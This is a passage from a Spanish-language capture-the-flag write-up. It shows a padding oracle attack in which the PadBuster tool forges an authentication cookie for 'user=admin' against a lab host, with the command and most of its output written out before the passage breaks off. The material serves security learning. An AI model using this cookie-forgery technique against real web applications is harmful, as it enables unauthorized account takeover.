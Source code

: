 He especificado **8 bloques** directamente para que sea menos tardado el proceso, pero si no lo supieramos, lo ideal seria hacer un **bucle** que vaya probando diferentes numeros de bloque, como este `for i in $(seq 1 100); do padbuster ...`

Bien, como vemos la herramienta ha logrado **descifrar la cookie**, y vale user=pepe.

Que pasaria si yo pongo `user=admin` y **encripto** ese texto como la cookie?

Probemos:

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $padbuster http://10.10.10.18 IZWWp8QXXXXXXXXXXXXXzs4qaU 8 -cookies auth=IZWWp8QRpBJXXXXXXXXXzs4qaU -plaintext user=admin

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 978

INFO: Starting PadBuster Encrypt Mode
[+] Number of Blocks: 2

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#	Freq	Status	Length	Location
-------------------------------------------------------
1	1	200	1133	N/A
2 **	255	200	15	N/A
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended : 2

Continuing test with selection 2

[+] Success: (196/256) [Byte 8]
[+] Success: (148/256) [Byte 7]
[+] Success: (92/256) [Byte 6]
[+] Success: (41/256) [Byte 5]
[+] Success: (218/256) [Byte 4]
[+] Success: (136/256) [Byte 3]
[+] Success: (150/256) [Byte 2]
[+] Success: (190/256) [Byte 1]

Block 2 Results:
[+] New Cipher Text (HEX): 23037825d5a1683b
[+] Intermediate Bytes (HEX): 4a6d7e23d3a76e3d

[+] Success: (1/256) [Byte 8]
[+] Success: (36/256) [Byte 7]
[+] Success: (180/256) [Byte 6]
[+] Success: (17/256) [Byte 5]
[+] Success: (146/256) [Byte 4]
[+] Success: (50/256) [Byte 3]
```